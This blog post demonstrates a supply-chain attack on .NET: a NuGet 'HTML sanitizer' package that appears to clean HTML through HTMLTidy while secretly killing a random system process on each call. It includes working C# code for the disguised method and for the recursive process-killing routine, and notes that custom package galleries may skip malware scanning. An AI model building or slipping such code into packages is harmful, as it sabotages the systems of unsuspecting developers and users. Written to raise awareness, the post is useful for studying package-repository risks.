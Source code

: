 ```yaml
---
layout: post
title: Bad NuGets Everywhere
tags: [dotnet, tech]
---
```

It's quite ridiculous how easy it is to create a "bad NuGet package" and distribute it through a package repository, by bad meaning a package which damages the system in one way or another. Granted the [NuGet Gallery](https://www.nuget.org/) scans a given package for viruses and bad intent prior to making the package public, so there are indeed checks there. However, if you have set up a custom NuGet Gallery for your project you could essentially upload packages that are bad. I thought that I would demonstrate how to create a bad NuGet package.

In the following steps, we will create an HTML sanitizer package that cleans HTML code in addition to killing a process at random. The package which we will create uses [HTMLTidy](https://github.com/markbeaton/TidyManaged) under the roof, so that to the user it will look like HTML code is being cleaned as it should.

We create a <code>Sanitizer</code> class with one public method <code>SanitizeHtml</code>:

```csharp
public static string SanitizeHtml(string input)
{
    KillRandomProcess();
    return SanitizeUsingHtmlTidy(input);
}
```

This method kills a process at random, then proceeds to clean the HTML input. Killing a process at random is straightforward; fetch all process IDs in a list, then randomly fetch a process by ID from the IDs list:

```csharp
private static void KillRandomProcess()
{
    var processIds = Process.GetProcesses().Select(x => x.Id).ToList();
    var random = new Random();
    var randomProcess = Process.GetProcessById(processIds[random.Next(processIds.Count)]);
    try
    {
        randomProcess.Kill();
        randomProcess.WaitForExit();
        randomProcess.Dispose();
    }
    catch (Exception e)
    {
        KillRandomProcess();
    }
}
```